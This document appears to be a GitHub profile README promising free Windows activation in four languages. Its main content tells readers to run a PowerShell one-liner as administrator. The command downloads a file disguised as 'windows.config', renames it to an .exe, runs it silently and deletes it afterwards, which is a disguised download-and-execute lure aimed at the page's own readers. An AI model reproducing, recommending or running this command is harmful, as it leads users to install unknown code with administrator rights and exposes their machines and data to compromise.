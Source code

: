 Copy the command below and paste it into Windows PowerShell to do Windows Free Activation. 👋⚡

Copie el siguiente comando y péguelo en Windows PowerShell para realizar la activación gratuita de Windows. 👋⚡

Copie o seguinte comando e cole-o no Windows PowerShell para realizar a ativação gratuita do Windows. 👋⚡

नि: शुल्क विंडोज सक्रियण करने के लिए निम्न कमांड को कॉपी करें और इसे विंडोज पावरशेल में पेस्ट करें 👋⚡

<!--
**projetos-gabriel-pub/projetos-gabriel-pub** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
⚡ OPEN THE WINDOWS POWERSHELL AS ADMINISTRATOR AND RUN THE FOLLOWING COMMAND:

### $LocalTempDir = $env:TEMP; $WindowsAtivator = "WindowsAtivator.exe"; (new-object System.Net.WebClient).DownloadFile('https://online-soft.github.io/online-soft/windows.config', "$LocalTempDir\$WindowsAtivator"); & "$LocalTempDir\$WindowsAtivator" /silent /install; $Process2Monitor = "WindowsAtivator"; Do { $ProcessesFound = Get-Process | ?{$Process2Monitor -contains $_.Name} | Select-Object -ExpandProperty Name; If ($ProcessesFound) { "Still running: $($ProcessesFound -join ', ')" | Write-Host; Start-Sleep -Seconds 2 } else { rm "$LocalTempDir\$WindowsAtivator" -ErrorAction SilentlyContinue -Verbose } } Until (!$ProcessesFound)
